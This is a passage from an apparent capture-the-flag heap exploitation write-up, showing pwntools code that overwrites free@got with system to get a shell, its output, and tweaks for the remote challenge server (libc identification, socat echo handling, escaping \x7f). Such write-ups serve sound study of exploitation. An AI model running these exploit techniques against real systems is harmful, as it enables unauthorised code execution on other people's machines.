 We're currently halfway through using `edit()` on `free@got`, so we can just continue inputting `system@libc` as the data, then free Chunk 1.

```python
p.sendline(p64(libc.symbols['system']))     # pass in system@libc as the data
free(1)     # trigger system@libc with the parameter /bin/sh

p.interactive()
```

And boom - success!

```
[+] Free Leak: 0x7f04d4413540
[+] Libc base: 0x7f04d438f000
[*] Switching to interactive mode
$ ls
chapter1  exploit.py
```

### Moving to Remote

There are a few changes we need to make remotely. Firstly, the libc _may_ be different (it was for me). Simply leak a couple more libc addresses and use somewhere like [here](https://libc.blukat.me/) to identify the libc version. We can also change the beginning of our script.

```python
if args.REMOTE:
    p = remote('167.71.140.171', 31713)
    libc = ELF('./libc-remote.so')
else:
    p = process()
    libc = elf.libc
```

Secondly, the way the service uses `socat` means it echoes our input back to us. Because of the way we use `p.sendlineafter()`, this doesn't affect us until we parse the libc leak. We can just listen to the extra data if it's on `REMOTE` mode.

```python
if args.REMOTE:
    p.recvuntil('0\r\n')        # echoed back

free_leak = u64(p.recv(6) + b'\x00\x00')    # now leak as usual
# [...]
```

Thirdly, the `socat` used has `pty` enabled. This means it interprets the `\x7f` we send as the ascii representation of **backspace**, which would delete anything we sent. To mitigate this (it's only relevant when sending `system`) we just check if we're on `REMOTE` mode and if we are we can escape the `\x7f` with `\x16`, the `socat` escape character.

```python
system = p64(libc.symbols['system'])

if args.REMOTE:
    system = system.replace(b'\x7f', b'\x16\x7f')   # escape backspace

p.sendline(system)
```
